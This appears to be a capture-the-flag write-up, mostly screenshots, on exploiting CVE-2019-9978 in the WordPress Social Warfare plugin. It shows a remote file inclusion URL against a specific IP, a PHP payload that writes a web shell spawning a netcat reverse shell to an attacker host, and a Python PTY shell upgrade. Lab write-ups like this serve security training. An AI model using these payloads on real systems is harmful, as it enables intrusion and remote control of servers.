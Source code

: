 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/9a3192bd-a9f7-4d49-8f55-cd7d413a3030)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/35afcfd3-c02c-428e-9a51-6170cbdc4c9b)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/dcf4b7cd-4083-4f46-acd5-abf2caea684b)

https://unit42.paloaltonetworks.com/exploits-in-the-wild-for-wordpress-social-warfare-plugin-cve-2019-9978/

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d72555fb-cdea-465f-b7ef-88f3b3a0e9c2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/0f375f35-83c9-4ccf-8a0a-10fa53f67418)

http://62.173.140.174:18500/wp-admin/admin-post.php?swp_debug=load_options&swp_url=http://IP:8000/test1.txt

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/3459d5a4-270b-45bd-b2dd-d2a41ec791f2)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/50aef2fe-4e4f-4a44-bfec-e13b2ad3bce2)

<pre> fwrite(fopen("evil.php","w") ,"<?php system('nc -e /bin/sh ip 1234'); ?>");</pre>

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/aaa34946-da07-4486-a3da-e44dacb237de)

python3 -c 'import pty; pty.spawn("/bin/bash")'


